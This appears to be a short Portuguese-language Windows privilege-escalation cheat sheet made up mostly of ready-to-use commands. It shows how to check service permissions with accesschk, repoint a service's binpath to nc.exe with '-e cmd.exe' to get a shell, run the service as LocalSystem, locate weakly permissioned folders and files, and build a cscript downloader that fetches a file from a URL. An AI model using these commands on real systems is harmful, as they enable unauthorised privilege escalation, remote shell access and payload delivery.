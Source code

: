 ## Verifica o privilégio do serviço
```
accesschk.exe /accepteula -ucqv <service_name>
```

## Reconfigura o serviço
```
sc config <service> binpath= "C:\nc.exe -nv 127.0.0.1 4444 -e C:\WINDOWS\System32\cmd.exe"
```

## Muda o serviço
```
sc config <service> obj= ".\LocalSystem" password= ""
```

## inicia o serviço
```
net start <service>
```

## verifica permissões (1)
```
accesschk.exe /accepteula -dqv "<file>"
```

## verifica permissões (2)
```
cacls "<file>"
```

## Identifica pastas com permissões fracas
```
accesschk.exe -uwdqs Users <c>:\
```

## Identifica arquivos com permissões fracas
```
accesschk.exe -uwqs Users <c>:\
```

% windows, download

## VBS download file script
#cat/ATTACK/FILE_TRANSFERT
```
echo var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);WinHttpReq.Send();WScript.Echo(WinHttpReq.ResponseText); > fu.js && cscript /nologo fu.js <file_url> > <downloaded_file>
```
